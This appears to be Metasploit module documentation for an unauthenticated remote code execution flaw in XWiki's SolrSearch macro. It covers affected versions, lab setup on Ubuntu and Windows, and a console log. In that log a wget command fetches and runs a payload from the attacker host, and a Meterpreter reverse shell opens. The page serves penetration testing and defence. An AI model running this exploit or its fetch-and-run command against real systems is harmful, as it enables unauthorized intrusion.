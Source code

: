 ## Vulnerable Application

This module exploits a template injection vulnerability in the the XWiki Platform.
XWiki includes a macro called SolrSearch (defined in Main.SolrSearchMacros) that enables full-text search through the embedded Solr engine. 
The vulnerability stems from the way this macro evaluates search parameters in Groovy, failing to sanitize or restrict malicious input.

This vulnerability affects XWiki Platform versions >= 5.3‑milestone‑2 and < 15.10.11, and versions >= 16.0.0‑rc‑1 and < 16.4.1.
Successful exploitation may result in the remote code execution under the privileges of the web server, potentially exposing sensitive data or disrupting survey operations.

An attacker can execute arbitrary system commands in the context of the user running the web server.

## Testing

### Setup a Linux Server to Host the XWiki

To set up a test environment:

1. Download and Install Ubuntu 18.04.6 LTS

Download the ISO from the official Ubuntu archive:
https://releases.ubuntu.com/18.04/

2. Install OpenJDK 17

```
wget https://github.com/adoptium/temurin17-binaries/releases/download/jdk-17.0.9%2B9/OpenJDK17U-jdk_x64_linux_hotspot_17.0.9_9.tar.gz
sudo mkdir -p /opt/java
sudo tar -xzf OpenJDK17U-jdk_x64_linux_hotspot_17.0.9_9.tar.gz -C /opt/java
export JAVA_HOME=/opt/java/jdk-17.0.9+9
export PATH=$JAVA_HOME/bin:$PATH
```

3. Download and Unpack Vulnerable XWiki

```
wget https://nexus.xwiki.org/nexus/content/groups/public/org/xwiki/platform/xwiki-platform-distribution-flavor-jetty-hsqldb/15.10.5/xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

```
unzip https://nexus.xwiki.org/nexus/content/groups/public/org/xwiki/platform/xwiki-platform-distribution-flavor-jetty-hsqldb/15.10.5/xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

4. Run XWiki

Go to the directory where you've unpack archive and run `start_xwiki.sh`

### Setup a Windows Server to Host XWiki

1. Download and Install Windows

Download Windows 10 ISO from the official Microsoft site:
https://www.microsoft.com/en-us/software-download/windows10

Follow standard installation steps in your hypervisor (e.g., VirtualBox, VMware, etc.).

2. Install OpenJDK 17

Download `.msi` file from this page

```
https://learn.microsoft.com/en-us/java/openjdk/download#openjdk-17
```

and install

3. Download and Unpack Vulnerable XWiki

```
https://nexus.xwiki.org/nexus/content/groups/public/org/xwiki/platform/xwiki-platform-distribution-flavor-jetty-hsqldb/15.10.5/xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

Open with 7-zip or another archiver and unpack

4. Run XWiki

Go to the directory where you've unpack archive and run `start_xwiki.bat`

## Scenario

```
msf6 > use multi/http/xwiki_unauth_rce_cve_2025_24893
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > set RHOSTS 192.168.19.136
RHOSTS => 192.168.19.136
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > run verbose=true

[*] Command to run on remote host: wget -qO ./oXsSiyiPG http://192.168.19.130:8080/TZr1rd35vcaOY2R1ivAgxA; chmod +x ./oXsSiyiPG; ./oXsSiyiPG &
[*] Fetch handler listening on 192.168.19.130:8080
[*] HTTP server started
[*] Adding resource /TZr1rd35vcaOY2R1ivAgxA
[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Extracting version...
[*] Extracted version: 15.10.5
[+] The target appears to be vulnerable.
[*] Building command for target...
[*] Uploading malicious payload...
[*] Client 192.168.19.136 requested /TZr1rd35vcaOY2R1ivAgxA
[*] Sending payload to 192.168.19.136 (Wget/1.19.4 (linux-gnu))
[*] Client 192.168.19.136 requested /TZr1rd35vcaOY2R1ivAgxA
[*] Sending payload to 192.168.19.136 (Wget/1.19.4 (linux-gnu))
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.19.136
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.19.136
[-] Failed to load client portion of stdapi.
[*] Meterpreter session 2 opened (192.168.19.130:4444 -> 192.168.19.136:36512) at 2025-08-23 23:42:12 -0400

[*] Meterpreter session 1 opened (192.168.19.130:4444 -> 192.168.19.136:36510) at 2025-08-23 23:42:12 -0400
meterpreter > sysinfo
Computer     : 192.168.19.136
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```